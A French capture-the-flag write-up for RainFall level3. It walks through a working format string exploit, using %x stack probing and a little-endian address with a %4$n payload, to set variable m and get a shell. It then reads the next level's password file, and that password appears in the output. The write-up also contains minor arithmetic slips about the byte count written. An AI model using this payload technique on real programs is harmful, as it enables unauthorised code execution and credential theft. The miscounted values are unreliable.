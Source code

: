 # Exploitation du niveau 3 : Format String Attack

Dans ce document, je vais expliquer comment j'ai exploité une vulnérabilité de format string dans le programme `level3` pour obtenir un shell interactif. Le processus a impliqué plusieurs étapes, telles que la découverte de l'adresse de la variable `m`, l'injection de cette adresse en Little Endian et l'utilisation de la vulnérabilité pour contrôler l'exécution du programme.

## 1. **Comprendre le programme**
Le programme `level3` contient une vulnérabilité de type format string qui permet d'injecter des données arbitraires dans le programme via la fonction `printf`. Le but de l'exploitation était de manipuler la variable `m` pour exécuter une commande `system("/bin/sh")` et obtenir un shell.

### Code source du programme :
```c
void v(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void)
{
  v();
  return;
}

```


Dans ce code, printf utilise une chaîne de format fournie par l'utilisateur. Si la valeur de m atteint 0x40, le programme exécute /bin/sh, ce qui nous permet d'obtenir un shell.

## 2. Trouver l'adresse de m
L'adresse de la variable m doit être trouvée afin de pouvoir manipuler sa valeur. Pour cela, j'ai utilisé une attaque de format string pour inspecter la pile et trouver où se situe m.

Étapes pour trouver l'adresse de m :
Utiliser gdb pour analyser la pile : J'ai exécuté le programme dans GDB pour analyser les arguments passés à printf et trouver l'adresse de m.
```bash
gdb ./level3
print &m
```

### Exploiter le format string : J'ai utilisé la commande suivante pour afficher les valeurs dans la pile avec %x :

```bash
level3@RainFall:~$ (python -c "print('AAAAA' + '%x.' * 5)"; cat -) | ./level3
AAAAA200.b7fd1ac0.b7ff37d0.41414141.2e782541.
```
Cette commande affiche les valeurs hexadécimales présentes sur la pile. J'ai pu observer que "AAAAA" qui en hexadecimal correspond a 414414141 apparaissait en 4ème position dans la sortie.
Donc le debut de notre format string est la 4eme valeur de la stack

### 3. Injection de l'adresse de m en Little Endian
Une fois l'adresse de m obtenue, il fallait l'injecter dans le programme. Le format string permet d'écrire des valeurs dans des adresses mémoire via %n. Cependant, printf attend que l'adresse soit injectée dans la pile en Little Endian (ordre des octets inversé).

L'adresse 0x804988c doit être convertie en Little Endian pour l'injecter correctement dans la pile. Cela donne \x8c\x98\x04\x08.

Exemple de conversion en Little Endian :
L'adresse de m : 0x804988c
En Little Endian : \x8c\x98\x04\x08


### 4. Construire le payload final
Maintenant que nous avons l'adresse de m et que nous savons où elle se trouve dans la pile, il faut créer un payload qui écrit dans cette adresse. Le payload doit contenir l'adresse de m en Little Endian et un format %4$n pour écrire la valeur à l'adresse de m.

Payload final :
bash
Copy code
(python -c "print('\x8c\x98\x04\x08' + 'a' * 60 + '%4$n')"; cat -) | ./level3
Explication du payload :
'\x8c\x98\x04\x08' : L'adresse de m en Little Endian.
'a' * 60 : 60 caractères 'a' pour faire le padding nécessaire et aligner la pile.
'%4$n' : %4$n écrit la valeur (le nombre de caractères imprimés) à l'adresse située en 4ème position de la pile (l'adresse de m).
Résultat du payload :
Ce payload permet de faire en sorte que la valeur 60 (le nombre de caractères avant %4$n) soit écrite à l'adresse 0x804988c, modifiant ainsi la valeur de m.

### 5. Exécution du shell
Une fois que la valeur de m est modifiée pour être égale à 0x40, la condition if (m == 0x40) dans le programme est satisfaite. Le programme exécute alors la commande system("/bin/sh"), ce qui nous donne un shell interactif.

### Résultat final :
```bash
level3@RainFall:~$ (python -c 'print("\x8c\x98\x04\x08" + "a" * 60 + "%4$n")'; cat -) | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
6. Conclusion
Grâce à l'attaque de format string, j'ai pu obtenir l'adresse de la variable m, manipuler cette adresse pour y écrire une valeur spécifique, et finalement obtenir un shell. Ce type d'attaque est très puissant et démontre l'importance de valider correctement les entrées utilisateur pour éviter les vulnérabilités de type format string.